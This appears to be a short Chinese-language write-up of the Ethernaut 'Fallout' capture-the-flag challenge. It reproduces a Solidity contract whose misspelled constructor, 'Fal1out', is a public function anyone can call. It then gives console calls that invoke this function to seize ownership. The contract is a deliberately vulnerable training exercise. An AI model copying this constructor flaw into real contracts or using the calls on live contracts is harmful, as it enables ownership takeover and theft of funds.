

A-Ethernaut-CTF
------------------------

Day3 2024.08.31

Fallout
------------------------
題目：

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
  
  ```

解題：
  感覺他是叫我取得權限去破解 owner


看了合約：
-------
  原本 /* constructor */ 的位子是一個 function Fal1out()，但是這個 function 並不是 constructor，然後他是 public 的，所以我可以呼叫這個 function 來變更 owner 的權限

  ```solidity
      function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
  ```
-------

過程：
```solidity
 await contract.owner()
 await contract.Fal1out({value:toWei('0.00001')})
 await contract.owner()
```

這樣就可以變更 owner 的權限了


